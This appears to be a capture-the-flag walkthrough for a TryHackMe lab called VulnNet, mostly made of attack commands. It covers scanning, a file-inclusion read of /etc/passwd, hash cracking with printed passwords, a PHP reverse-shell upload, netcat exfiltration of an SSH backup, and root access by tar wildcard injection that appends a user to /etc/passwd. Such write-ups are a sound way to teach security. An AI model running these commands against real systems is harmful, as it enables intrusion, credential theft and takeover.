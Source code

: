 # VulnNet

**Room Link:** [https://tryhackme.com/room/vulnnet1](https://tryhackme.com/room/vulnnet1)



## Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (664).png" alt=""><figcaption></figcaption></figure>



## Scan all ports

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (665).png" alt=""><figcaption></figcaption></figure>

## TCP/80 - HTTP

**Kali**

```
gobuster dir -u vulnnet.thm -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (667).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
nikto -h vulnnet.thm
```

<figure><img src="../../.gitbook/assets/image (666).png" alt=""><figcaption></figcaption></figure>



Browsing gobuster we can see a subdomain, broadcast.vulnnet.thm

<figure><img src="../../.gitbook/assets/image (672).png" alt=""><figcaption></figcaption></figure>



## Fuzz Subdomain

We can see broadcast again when we scan for it.

**Kali**

```
gobuster vhost -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u http://vulnnet.thm  
```

<figure><img src="../../.gitbook/assets/image (671).png" alt=""><figcaption></figcaption></figure>







## **LFI**

One of the other js files shows we can use referer to look at files.

<figure><img src="../../.gitbook/assets/image (673).png" alt=""><figcaption></figcaption></figure>

Confirmed it works

**Kali**

```
curl -s http://vulnnet.thm/?referer=/etc/passwd 
```

<figure><img src="../../.gitbook/assets/image (669).png" alt=""><figcaption></figcaption></figure>



**Kali**

```
curl -s http://vulnnet.thm/?referer=/etc/passwd 
```



## &#x20;

<figure><img src="../../.gitbook/assets/image (674).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (675).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (676).png" alt=""><figcaption></figcaption></figure>



## Crack Hash

**Kali**

```
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

<figure><img src="../../.gitbook/assets/image (677).png" alt=""><figcaption></figcaption></figure>



```
Username: developers
Password: 9972761drmfsls
```

<figure><img src="../../.gitbook/assets/image (678).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (679).png" alt=""><figcaption></figcaption></figure>



## TCP/80 - HTTP

**Kali**

```
gobuster -U developers -P 9972761drmfsls dir -u broadcast.vulnnet.thm -w /usr/share/wordlists/SecLists/Discovery/Web-C
ontent/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (681).png" alt=""><figcaption></figcaption></figure>

## Initial Shell

**exploit:** [https://www.exploit-db.com/raw/44250](https://www.exploit-db.com/raw/44250)

**Kali**

```
nc -lvnp 1234
```

**Kali**

```
git clone https://github.com/pentestmonkey/php-reverse-shell.git
cd php-reverse-shell/
curl -F "file=@php-reverse-shell.php" -F "plupload=1" -F "name=php-reverse-shell.php" http://broadcast.vulnnet.thm/actions/photo_uploader.php -u developers:9972761drmfsls
```

<figure><img src="../../.gitbook/assets/image (682).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (683).png" alt=""><figcaption></figcaption></figure>



Get autocomplete

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```





## Lateral Movement&#x20;

**Victim**

```
cd /var/backups/
ls -lah
```

<figure><img src="../../.gitbook/assets/image (692).png" alt=""><figcaption></figcaption></figure>

### Netcat

**Kali(receiving)**

```
nc -l -p 1234 > ssh-backup.tar.gz
```

**Victim(sending)**

```
nc -w 3 $KALI 1234 < ssh-backup.tar.gz
```

**Kali**

```
tar xvf ssh-backup.tar.gz 
```

<figure><img src="../../.gitbook/assets/image (686).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
/opt/john/ssh2john.py id_rsa > id_john.txt
john --wordlist=/usr/share/wordlists/rockyou.txt id_john.txt
```

<figure><img src="../../.gitbook/assets/image (687).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
ssh -i id_rsa server-management@$VICTIM 
Password: oneTWO3gOyac
```

<figure><img src="../../.gitbook/assets/image (688).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

**exploit:** [https://gtfobins.github.io/gtfobins/tar/](https://gtfobins.github.io/gtfobins/tar/)

<figure><img src="../../.gitbook/assets/image (693).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
cd /var/opt/
cat backupsrv.sh
ls -lah backupsrv.sh
```

<figure><img src="../../.gitbook/assets/image (689).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
cat /etc/crontab
```

<figure><img src="../../.gitbook/assets/image (690).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
cd /home/server-management/Documents
rm -rf 'Employee Search Progress Report.pdf' 
rm -rf 'Daily Job Progress Report Format.pdf'
touch ./--checkpoint=1
touch './--checkpoint-action=exec=sh shell.sh'
vi shell.sh
```

**shell.sh**

```
#!/bin/bash

echo 'new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash' >> /etc/passwd
```

**Victim**

```
chmod +x shell.sh
```

Once the cronjob runs are new root user will be created.

**Victim**

```
su new
Password: 123
```

<figure><img src="../../.gitbook/assets/image (691).png" alt=""><figcaption></figcaption></figure>



















